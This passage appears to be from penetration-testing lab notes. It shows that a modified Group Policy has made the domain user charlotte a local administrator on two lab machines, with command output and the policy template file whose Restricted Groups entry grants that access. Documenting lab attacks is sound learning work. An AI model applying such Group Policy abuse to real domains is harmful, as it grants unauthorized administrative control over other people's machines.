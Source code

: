 ### After GPO update

Run `gpupdate /force` on both workstations.

On VM01:
```
net localgroup "Administrators"
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
SECURA\charlotte
The command completed successfully.
```
=> charlotte is now local admin (somehow eric is no longer lol)

On VM02:
```
net localgroup "Administrators"
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
SECURA\charlotte
The command completed successfully.
```
=> charlotte is now local admin


Downloaded GPT.INI and GptTmpl.inf from the SMB policy folder:
```
cat GPT.INI 
[General]
Version=196679

cat GptTmpl.inf 
[Unicode]
Unicode=yes
[System Access]
PasswordComplexity = 0
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Version]
signature="$CHICAGO$"
Revision=1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
[Group Membership]
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *S-1-5-21-3453094141-4163309614-2941200192-1104
```
